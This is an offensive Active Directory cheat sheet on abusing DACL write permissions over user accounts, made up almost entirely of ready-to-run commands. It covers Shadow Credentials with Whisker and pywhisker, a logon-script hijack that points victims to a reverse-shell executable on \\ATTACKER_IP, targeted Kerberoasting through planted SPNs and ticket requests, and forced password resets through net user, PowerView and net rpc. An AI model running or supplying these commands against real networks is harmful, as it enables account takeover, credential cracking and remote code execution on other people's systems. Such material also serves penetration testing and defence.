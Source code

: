 # DACL Attacks on a user

## 1) WriteProperty

### ShadowCredentials

    Whisker.exe add /target:<target> /domain:domain.local /dc:dc.domain.local /path:C:\path\to\file.pfx /password:"Password123!"

# Linux

    pywhisker.py -t user2 -a add -u user1 -p password -d domain.local -dc-ip <DC_IP> --filename user2

### Logon Script

##### PowerView

    Set-DomainObject <target> -Set @{'mstsinitialprogram'='\\ATTACKER_IP\rev.exe'} -Verbose

##### AD module

    Set-ADObject -SamAccountName '<target>' -PropertyName scriptpath -PropertyValue "\\ATTACKER_IP\rev.exe"

### Targeted Kerberoasting

We can then request a ST without special privileges. The ST can then be "Kerberoasted".

##### Verify if the user already has a SPN

    Get-DomainUser -Identity <target> | select serviceprincipalname

##### Using ActiveDirectory module

    Get-ADUser -Identity <target> -Properties ServicePrincipalName | select ServicePrincipalName

#### TIP: New SPN must be unique in the domain

##### Set the SPN

    Set-DomainObject -Identity user -Set @{serviceprincipalname='ops/whatever1'}

##### Using ActiveDirectory module

    Set-ADUser -Identity user -ServicePrincipalNames @{Add='ops/whatever1'} 

##### Request the ticket
    
    Add-Type -AssemblyNAme System.IdentityModel
    New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
    
##### From PowerView

    Request-SPNTicket

# Linux

    GetUserSPNs.py -request-user user2 -dc-ip <DC_IP> domain.local/user1:password

##### Set SPN on all the possible users, request the ticket and delete the SPN

    targetedKerberoast.py -u user1 -p password -d domain.local --only-abuse

## 2) User-Force-Change-Password

With enough permissions on a user, we can change his password

    net user <target> Password123! /domain

##### With PowerView

    $pass = ConvertTo-SecureString "Password123!" -AsPlainText -Force
    $cred = New-Object System.Management.Automation.PSCredential("domain\user1", $pass)
    Set-DomainUserPassword "<target>" -AccountPassword $UserPassword -Credential $cred

# Linux

    net rpc password user2 -U 'domain.local'/'user1'%'password' -S DC.domain.local
